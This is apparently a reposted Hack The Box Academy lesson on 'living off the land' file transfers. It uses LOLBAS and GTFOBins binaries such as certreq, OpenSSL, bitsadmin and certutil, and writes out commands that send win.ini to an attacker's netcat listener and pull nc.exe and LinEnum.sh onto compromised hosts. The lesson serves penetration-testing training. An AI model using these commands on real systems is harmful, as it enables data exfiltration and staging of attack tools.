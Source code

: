 ## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

### LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

![LOLBAS project page listing binaries like CertReq.exe with functions and ATT&CK techniques.](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

#### Upload win.ini to our Pwnbox

Living off The Land

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

#### File Received in our Netcat Session

Living off The Land

```shell-session
shakir0x00@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![GTFObins page listing Unix binaries with functions like file upload and download, and associated ATT&CK techniques.](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

#### Create Certificate in our Pwnbox

Living off The Land

```shell-session
shakir0x00@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

#### Stand up the Server in our Pwnbox

Living off The Land

```shell-session
shakir0x00@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

#### Download File from the Compromised Machine

Living off The Land

```shell-session
shakir0x00@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin

Living off The Land

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

#### Download

Living off The Land

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---

### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

#### Download a File with Certutil

Living off The Land

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```